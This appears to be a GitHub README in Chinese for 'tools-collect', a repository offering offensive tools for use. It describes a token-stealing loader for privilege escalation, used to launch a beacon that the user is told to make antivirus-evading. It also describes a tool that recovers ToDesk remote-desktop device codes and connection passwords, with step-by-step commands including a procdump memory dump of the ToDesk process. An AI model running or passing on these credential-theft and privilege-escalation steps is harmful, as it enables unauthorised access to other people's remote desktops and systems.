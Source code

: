 # tools-collect
tools collect

## 1. TokenTest.zip    
用途：实现一个窃取令牌来权限提升的loader   
使用：TokenTest.exe beacon.exe（beacon.exe自行做免杀即可）   
原文链接：https://mp.weixin.qq.com/s/xvgzmtXfyanpWLlw7uQOzA   

## 2. todeskpass.zip
用途：todesk最新版设备代码、连接密码读取   
版本：todesk官网最新版：4.7.4.8   
使用：   
tasklist /svc   
procdump64.exe -accepteula -ma 11652(实际的pid)   
todesk_pass.exe   
原文链接：https://mp.weixin.qq.com/s/SLIEg36LOJpJYgY6N-0dGg
